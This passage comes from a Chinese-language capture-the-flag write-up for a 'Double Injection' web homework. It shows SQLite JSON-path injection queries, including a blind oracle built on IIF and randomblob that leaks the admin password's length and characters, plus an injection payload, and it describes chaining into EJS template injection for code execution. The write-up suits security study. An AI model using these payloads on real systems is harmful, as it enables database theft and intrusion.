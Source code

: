             ```
        * 則query到的data如下
            ```sql
            { a: null, b: 'admin', c: 'FLAG{flag-1}' }
            ```
            第一個參數a為null是因為app.js中，我們的payload經過==JSON.stringify==，會在雙引號前加一個反斜線，這會導致query時，db不知道==$.admin.username\==是甚麼東西，只有單引號沒有這個問題，但如果第一個query data不加上雙引號就會導致閉合不全而導致結果異常(如下)
            ![圖片](https://hackmd.io/_uploads/Hy29LmYvp.png)
            所以我乾脆第一個參數就算了，重新利用後兩個參數要到username和password
    3. 有了這個可以幹嘛呢?我們可以下條件，當條件符合的時候做A，否則做B，而A和B是有一些差異，可能是時間長度或是網站是否crash為基準，這樣的話我們就可以知道下的條件是否正確，POC如下:
        * 看長度
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,
              json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(length(c) = 10, (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
            在local測試時，FLAG1=`FLAG{test}`，也就是只有10個字，如果條件設定不符合時，就會query出東西，因為條件不符回傳1，如下圖
            ![圖片](https://hackmd.io/_uploads/SJxwu7Fwa.png)
            
            ---
            反之，就會query不出東西，也就是crash
            ![圖片](https://hackmd.io/_uploads/Hywt_QYvp.png)
        * 如果想要知道某一個字元可以substr這個function
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,
              json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(substr(c, 1, 5) = 'FLAG{', (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
    4. 此時就可以開寫script去server端爆破FLAG1

## HW-Double Injection - FLAG2
Flag: `FLAG{ezzzzz_sqli2ssti}`

### 解題流程與思路
這一題想了很久，因為我沒有跟影片，想說應該都是跟去年差不多或是在臺科的網頁安全一樣，但其實相關的payload就是在講義上，花了一整天寫的我be like:
![](https://memeprod.ap-south-1.linodeobjects.com/user-template/7266c8627075418a7979b79481bf0f84.png)
基本上就是連接前一題的思緒，既然我們知道admin的password也就是FLAG1，那麼我們就可以用前一題的payload:
```!
admin.password") as password, json_extract(users, '$.admin.password') as password from db; -- #
```
後面搭配簡單的XSS也是可以通的，原本想說可以利用XSS達到RCE，但就我之前和Kaibro的詢問，XSS應該沒有這麼powerful，所以我就往SSTI或command injection下手，後來經過@cs-otaku的提點才知道ejs有一個洞，也是上課有提到的SSTI控到RCE，當時看的文章是Huli大寫的，內容詳細說明了為甚麼會有這個洞以及該如何構造攻擊的payload，不過整體更複雜也算是需要客製化的題目才需要了解這麼多，這一題算是只要取得經典的payload就可以攻克，如果想要用動態看他跑得怎麼樣，可以用web storm跟，想知道整體的動態流程可以看[之前寫的文章](https://hackmd.io/@SBK6401/HkgkDNsPp)